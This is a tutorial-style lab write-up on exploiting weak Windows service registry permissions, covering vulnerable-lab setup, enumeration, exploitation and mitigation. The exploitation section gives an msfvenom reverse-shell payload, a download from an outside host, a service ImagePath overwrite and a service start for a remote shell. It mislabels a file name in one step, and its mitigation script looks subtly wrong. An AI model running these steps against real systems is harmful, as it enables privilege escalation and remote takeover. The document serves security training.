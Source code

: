 # Weak Registry Permissions

## Table of Contents

- [Weak Registry Permissions](#weak-registry-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak registry permissions represent a vulnerability within the Windows registry resulting from misconfigured access controls. This issue involves specific registry keys or entries having permissions that permit unauthorized users to manipulate or access crucial system configurations. This vulnerability can be exploited by attackers who inject malicious code into registry keys, thus obtaining unauthorized privileged access.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv4\"
```

2) Download the file [Service4.exe](/Lab-Setup-Binary/Service4.exe) to the 'C:\Program Files\CustomSrv4' directory.

3) Install the new Service:

```
New-Service -Name "Vulnerable Service 4" -BinaryPathName "C:\Program Files\CustomSrv4\Service4.exe" -DisplayName "Vuln Service 4" -Description "My Custom Vulnerable Service 4" -StartupType Automatic
```

4) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 4" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Registry-Permissions-Manual-Lab-Setup](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup.png)

5) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4':

![Weak-Registry-Permissions-Manual-Lab-Setup-2](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-2.png)

6) Right click on "Vulnerable Service 4" and choose the "permissions" option:

![Weak-Registry-Permissions-Manual-Lab-Setup-3](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-3.png)

7) Allow Full Access control on Users and then press "OK" button:

![Weak-Registry-Permissions-Manual-Lab-Setup-4](/Pictures/Weak-Registry-Permissions-Manual-Lab-Setup-4.png)

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Registry Permissions' vulnerability is by using the custom PowerShell script named [WeakRegistryPermissions.ps1](/Lab-Setup-Scripts/WeakRegistryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakRegistryPermissions.ps1
```

Outcome:

![Weak-Registry-Permissions-Script-Lab-Setup](/Pictures/Weak-Registry-Permissions-Script-Lab-Setup-4.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Registry Permissions` vulnerability, you can use the following steps:

1) Open a Powershell and use the following command to enumerate registry permissions:

```
Get-Acl -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" | fl
```

2) Use the following command to identify the image path of the service:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Manual-Enumeration](/Pictures/Weak-Registry-Permissions-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Registry Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceRegistryKeys
```

Outcome:

![Weak-Registry-Permissions-Tool-Enumeration](/Pictures/Weak-Registry-Permissions-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service4.exe
```

2) Open a listener in your kali machine.

3) Transfer and overwrite the Service2.exe file with the malicious binary:

```
iwr -Uri http://<ip>:<port>/Service4.exe -Outfile C:\Windows\Tasks\Service4.exe
```

4) Change the image path for service:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Tasks\Service4.exe" /f
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 4"
```

Outcome:

![Weak-Registry-Permissions-Exploitation](/Pictures/Weak-Registry-Permissions-Exploitation-2.png)

6) Verify the reverse shell on your Kali machine:

![Weak-Registry-Permissions-Reverse-Shell](/Pictures/Weak-Registry-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Regisrty Permissions vulnerabilities, adjust permissions on Regisrty hives initiated through this mechanism. This limits unauthorized access and strengthens security measures:

1) Open Registry panel with `regedit` command and navigate to 'Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4'.

2) Right click on "Vulnerable Service 4" and choose the "permissions" option.

3) Remove the checkmark from the 'Full Control' box assigned to 'Users,' then click the 'OK' button.

However, you can use the following PowerShell script:

```
# Define the registry key path
$regKey = "HKLM:\SYSTEM\CurrentControlSet\Services\Vulnerable Service 4"

# Get the current ACL (Access Control List) for the registry key
$acl = Get-Acl -Path $regKey

# Specify the account and access rights to be removed
$account = "BUILTIN\Users"
$accessRights = [System.Security.AccessControl.RegistryRights]::FullControl

# Create a new access rule to remove FullControl
$accessRule = New-Object System.Security.AccessControl.RegistryAccessRule($account, $accessRights, "Deny")

# Remove the access rule from the ACL
$acl.RemoveAccessRule($accessRule)

# Set the modified ACL back to the registry key
Set-Acl -Path $regKey -AclObject $acl
```

## References

- [Windows registry information for advanced users Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users)
- [About Registry Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/about-the-registry)
- [Registry Key Security and Access Rights Microsoft](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-key-security-and-access-rights)